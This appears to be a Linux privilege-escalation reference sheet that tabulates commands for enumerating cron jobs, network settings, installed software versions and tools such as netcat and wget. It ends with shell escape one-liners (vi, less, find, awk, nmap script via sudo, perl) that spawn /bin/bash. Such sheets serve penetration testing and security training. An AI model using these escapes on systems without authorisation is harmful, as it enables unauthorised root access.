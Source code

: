 Command      | Result 
------------ | -------------
crontab -l -u %username%	| Display scheduled jobs for the specified user – Privileged command
ls -la /etc/cron*	| Scheduled jobs overview (hourly, daily, monthly etc)
ls -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null |	What can ‘others’ write in /etc/cron* directories
top	| List of current tasks
 
### Networking, Routing & Communications:
Command      | Result 
------------ | -------------
/sbin/ifconfig -a	|List all network interfaces
cat /etc/network/interfaces|	As above
arp -a	|Display ARP communications
route	|Display route information
cat /etc/resolv.conf	|Show configured DNS sever addresses
netstat -antp	|List all TCP sockets and related PIDs (-p Privileged command)
netstat -anup	|List all UDP sockets and related PIDs (-p Privileged command)
iptables -L	List rules – |Privileged command
cat /etc/services |	View port numbers/services mappings
 
### Programs Installed:
Command      | Result 
------------ | -------------
dpkg -l	|Installed packages (Debian)
rpm -qa	|Installed packages (Red Hat)
sudo -V	|Sudo version – does an exploit exist?
httpd -v	|Apache version
apache2 -v	|As above
apache2ctl (or apachectl) -M	|List loaded Apache modules
mysql --version |	Installed MYSQL version details
psql -V	Installed| Postgres version details
perl -v	Installed | Perl version details
java -version |	Installed Java version details
python --version	|Installed Python version details
ruby -v	| Installed Ruby version details
find / -name %program_name% 2>/dev/null (i.e. nc, netcat, wget, nmap etc) |	Locate ‘useful’ programs (netcat, wget etc)
which %program_name% (i.e. nc, netcat, wget, nmap etc)	| As above
dpkg --list 2>/dev/null| grep compiler |grep -v decompiler 2>/dev/null && yum list installed 'gcc*' 2>/dev/null| grep gcc 2>/dev/null | List available compilers
cat /etc/apache2/envvars 2>/dev/null |grep -i 'user|group' |awk '{sub(/.*export /,"")}1'	| Which account is Apache running as
 
### Common Shell Escape Sequences:
Command	    | Program(s)
------------ | -------------
:!bash |	vi, vim
:set shell=/bin/bash:shell	|vi, vim
!bash |	man, more, less
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; |	find
awk 'BEGIN {system("/bin/bash")}' |	awk
--interactive |	nmap
echo "os.execute('/bin/sh')" > exploit.nse  sudo nmap --script=exploit.nse	| nmap 
perl -e 'exec "/bin/bash";'	 |Perl
